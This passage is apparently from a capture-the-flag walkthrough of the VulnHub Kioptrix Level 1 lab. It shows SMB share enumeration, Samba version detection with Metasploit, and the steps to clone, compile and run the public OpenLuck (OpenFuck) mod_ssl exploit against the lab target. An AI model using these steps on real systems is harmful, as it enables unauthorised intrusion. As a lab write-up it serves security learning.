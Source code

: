 ```bash
# Connect to SMB Share
smbclient //10.0.2.22/ADMIN$

smbclient //10.0.2.22/IPC$
```

![Samba Enumeration 2](images/vulnhub-kioptrix-lvl1/samba-enum-2.png)

The ADMIN$ share did not allow access but we can connect to the IPC$ share without a password. None of the SMB commands seem to provide any results on the IPC$ share.

The port scan did not give us the version of the Samba service that is running on the target. Metasploit has a scanner that can be utilized to find the version of Samba.

```bash
msfconsole

# Metasploit Commands
search smb version
use 9
show options
set RHOSTS 10.0.2.22
run
```

![Samba Enumeration 1](images/vulnhub-kioptrix-lvl1/samba-enumeration-1.png)

![Samba Enumeration 2](images/vulnhub-kioptrix-lvl1/samba-enumeration-2.png)

![Samba Enumeration 3|540](images/vulnhub-kioptrix-lvl1/samba-enumeration-3.png)

We find that the target is running `Samba 2.2.1a`.

![Samba Search Result|500](images/vulnhub-kioptrix-lvl1/samba-search-result.png)

On searching Google we can see exploits are available for this version of Samba. There seems to be an exploit called `trans2open` that could be used on the target.

## Exploitation

### Exploiting Apache

During the enumeration phase, an exploit called `OpenFuck` was discovered which could potentially exploit the vulnerability in the version of `mod_ssl` that is used by Apache. But on further digging it was found that this version of the exploit does not work anymore. In its place a newer version of the same exploit called `OpenLuck` is available.

[GitHub - heltonWernik/OpenLuck: OpenFuck exploit updated to Linux 2018 - Apache mod_ssl < 2.8.7 OpenSSL - Remote Buffer Overflow](https://github.com/heltonWernik/OpenLuck)

The exploit is written in C. After cloning the repository we need to compile the code using `gcc`.

```bash
# Clone Repository
git clone https://github.com/heltonWernik/OpenFuck.git

# Install Dependencies
sudo apt update && sudo apt install libssl-dev -y

# Compiling Code
gcc -o OpenFuck OpenFuck.c -lcrypto

# Running Exploit
./OpenFuck
```
